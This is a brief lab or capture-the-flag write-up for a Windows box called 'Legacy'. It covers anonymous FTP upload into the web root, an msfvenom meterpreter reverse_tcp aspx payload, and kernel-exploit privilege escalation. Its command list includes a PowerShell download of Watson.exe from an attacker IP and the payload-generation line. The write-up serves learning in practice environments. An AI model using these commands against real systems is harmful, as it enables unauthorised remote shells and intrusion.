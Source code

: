 # Legacy - Writeup

### Ports found 80 (http), 21 (ftp)

This box had a big vulnerability and that was an anonymous login to the ftp coupled with the fact that the ftp root was the same as the web root. 

When logged in to ftp you can find a asp_client directory. By searching why this directory exists you can conclude that the server serves .apsx files. This ftp server also allows anonymous uploads. You can test if a upload is browsale by uploading a txt file and then browsing to it. When this is confirmed you are ready to upload a payload using msfvenom. By browsing the .aspx payload and listning on your attacker machine you can get a low priv shell.

Once connected with the low priv shell, you can run systeminfo and then grab the output and run windows_exploit_suggestor.py. It runs offline. You can also get Sherlock or Watson on the victim and run them as well. These are the low hanging fruit. 

In this case several vulnerabilities where found since no hotfixes were installed this was exploited using kernel exploits. At first the exploits did not work then I actually compiled them by myself and then it worked. 

### Notable Commands
- Downloading a file from lowpriv windows: powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.9:8000/Watson.exe','c:\Users\Public\TEST\Watson.exe')"
- Creating the payload for IIS 7.5 aspx msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f aspx > totally_not_a_weird_file.aspx


### Lessons Learned
- If you are planning on using a kernel exploit make sure you compile it by yourself.
- Make sure you try Sherlock, Watson and local windows exploit suggestor (python).

>boom_root
